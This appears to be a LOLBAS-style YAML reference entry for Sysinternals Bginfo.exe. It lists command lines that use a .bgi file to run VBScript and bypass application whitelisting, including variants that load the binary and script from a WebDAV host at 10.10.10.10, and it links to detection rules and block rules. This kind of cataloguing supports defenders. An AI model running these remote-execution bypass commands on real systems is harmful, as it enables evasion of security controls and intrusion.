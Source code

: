 ```yaml
---
Name: Bginfo.exe
Description: Background Information Utility included with SysInternals Suite
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: bginfo.exe bginfo.bgi /popup /nolicprompt
    Description: Execute VBscript code that is referenced within the bginfo.bgi file.
    Usecase: Local execution of VBScript
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
    Tags:
      - Execute: WSH
  - Command: bginfo.exe bginfo.bgi /popup /nolicprompt
    Description: Execute VBscript code that is referenced within the bginfo.bgi file.
    Usecase: Local execution of VBScript
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
    Tags:
      - Execute: WSH
  - Command: \\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: Execute bginfo.exe from a WebDAV server.
    Category: Execute
    Privileges: User
    MitreID: T1218
    Tags:
      - Execute: WSH
    OperatingSystem: Windows
  - Command: \\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: Execute bginfo.exe from a WebDAV server.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
    Tags:
      - Execute: WSH
  - Command: \\live.sysinternals.com\Tools\bginfo.exe \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: This style of execution may not longer work due to patch.
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
    Tags:
      - Execute: WSH
  - Command: \\live.sysinternals.com\Tools\bginfo.exe \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: This style of execution may not longer work due to patch.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
    Tags:
      - Execute: WSH
Full_Path:
  - Path: no default
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_bginfo.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_process_network_connection.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
Resources:
  - Link: https://oddvar.moe/2017/05/18/bypassing-application-whitelisting-with-bginfo/
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

